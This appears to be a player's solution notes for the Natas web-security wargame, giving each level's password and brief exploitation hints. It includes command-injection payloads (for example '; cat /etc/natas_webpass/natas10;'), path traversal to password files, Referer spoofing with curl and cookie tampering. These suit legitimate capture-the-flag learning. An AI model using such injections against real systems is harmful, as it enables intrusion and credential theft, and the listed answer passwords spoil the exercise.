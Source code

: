 * 1: gtVrDuiDfck831PqWsLEZy5gyDz1clto

* 2: ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

go to URL/files
users.txt will have the password

* 3: sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

websites have URL/robots.txt so that google can find it
go to URL/s3cr3t

* 4: Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ


go to natas5 
copy the button in natas 4, inspect element and add it to natas5
click it

curl -e http://natas5.natas.labs.overthewire.org/ -u natas4 http://natas4.natas.labs.overthewire.org/index.php

dash e is referal. 

* 5: iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

Cookies. curl -i -u natas5 http://natas5.natas.labs.overthewire.org/

document.cookie="loggedin=1"
look at the memory side of console 

* 6: aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

go to URL/includes/secret.inc
$_POST gets information through http headers. 
$_GET gets information through URLS

* 7: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

* 8: DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

var_dump(base64_decode(strrev(hex2bin("3d3d516343746d4d6d6c315669563362"))));

* 9: W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

; cat /etc/natas_webpass/natas10; 
passthru will run bash code

* 10: nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

; = %3B
& = %26

passthru("grep -i $key dictionary.txt");

"-F '' /etc/natas_webpass/natas11" 

       -F, --fixed-strings
Interpret PATTERN as a list of fixed strings (instead of 
regular expressions), separated by newlines, any of which is to be 
matched.


       -E, --extended-regexp
  Interpret PATTERN as an extended regular expression (ERE, see below).


* 11: U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

If i change 
$partialKey .= $text2[$i] ^ 'f';
into 
$partialKey .= $text1[$i] ^ '0';

it still works.

w8Jqw8
is the output. So

qw8J is the XOR key!! Any cyclic permutation of Jqw8

* 12: EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3


